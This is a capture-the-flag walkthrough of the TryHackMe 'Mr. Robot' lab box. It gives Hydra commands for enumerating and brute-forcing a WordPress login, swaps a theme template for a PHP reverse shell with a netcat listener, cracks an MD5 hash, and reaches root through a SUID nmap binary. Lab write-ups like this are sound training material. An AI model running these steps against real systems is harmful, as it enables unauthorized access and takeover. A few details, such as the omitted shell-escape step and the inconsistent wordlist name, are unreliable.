# **TryHackMe: Mr. Robot – Room Walkthrough**

This room is based on the Mr. Robot TV show. It's a fun box that covers web enumeration, brute-forcing WordPress, popping a reverse shell, cracking a hash, and finding a legacy SUID binary to get root.

## **1. Scanning**

I started off with a full `nmap` scan to see what ports were open on the machine.

```
nmap -sV -T5 -p- -vv 10.48.132.247
```

**Open Ports:**

- **Port 22:** SSH
- **Port 80:** HTTP (Web Server)
- **Port 443:** HTTPS (Secure Web Server)

## **2. Web Enumeration**

Since port 80 was open, I ran a `gobuster` scan to find hidden directories.

```
gobuster dir -u http://10.48.132.247 -w /usr/share/wordlists/dirb/common.txt
```

In the results, I noticed `/robots.txt` was available. When I checked it in the browser, I found two very important things:

1. **`key-1-of-3.txt`**: This was the first flag! I just read it directly from the browser.
2. **`fsociety.dic`**: A custom dictionary/wordlist file. I downloaded this right away because I knew it would be useful for brute-forcing later.
    
    
    
    
    

The scan also showed `/wp-login.php`, which confirmed the site was running WordPress.

## **3. Exploitation & Initial Foothold**

Now that I had a custom wordlist (`fsociety.txt`), I used `hydra` to attack the WordPress login page.

### **Finding the Username:**

WordPress gives a specific error message if a username doesn't exist. I used Hydra to check for valid users by looking for the "Invalid username" error:

```
hydra -L fsociety.txt -p 12345 10.48.132.247 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"
```

This successfully found the username: **Elliot**.



### **Finding the Password:**

Next, I locked the username to `Elliot` and ran Hydra again to find his password:

```
hydra -l Elliot -P fsociety.txt 10.48.132.247 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username"
```

This found Elliot's valid password.



### **Getting a Shell:**



I logged into the WordPress dashboard using Elliot's credentials. To get a reverse shell, I went to:

`Appearance` ➡️ `Editor` ➡️ `404 Template (404.php)`





I deleted everything in that file and pasted the standard **Pentestmonkey PHP reverse shell**, changing the IP to my VPN IP and setting the port to `4444`.

I started a netcat listener on my terminal:

```
nc -lvnp 4444
```

Then, I browsed to the 404 page URL to trigger the script:

`http://10.48.132.247/wp-content/themes/twentyfifteen/404.php`

The shell connected instantly, giving me access as the `daemon` user.



## **4. Pivoting to the robot User**

I checked the `/home` directory and saw a folder for a user named `robot`. Inside `/home/robot/`, there were two files:

- `key-2-of-3.txt` (I couldn't read it yet because of permissions)
- `password.raw-md5`

I opened `password.raw-md5` and found an MD5 hash:

```
robot:c3fcd3d76192e...
```



I took that hash and ran it through **CrackStation**. It cracked the hash instantly and gave me the plain text password.



With the password in hand, I switched my user account to robot:

```
ssh robot@10.48.132.247 (or use su robot)
```

Now as `robot`, I could easily read the second flag:

```
cat /home/robot/key-2-of-3.txt
```



## **5. Privilege Escalation (Getting Root)**

To find a way to get root access, I ran a command to check for any files with the SUID bit set:

```
find / -perm /4000 2>/dev/null
```

Looking through the list, I saw `/usr/local/bin/nmap`.



This is an old version of Nmap (`v3.81`) that has an **interactive mode**. Since it had the SUID bit set, running it would allow me to execute commands as root.

I started Nmap in interactive mode:

```
/usr/local/bin/nmap -i
```

I ran `id` and confirmed I was now **root**!

```
uid=0(root) gid=0(root) groups=0(root)
```

Finally, I navigated to the `/root` folder and grabbed the third and final flag:

```
cat /root/key-3-of-3.txt
```



Room solved! 

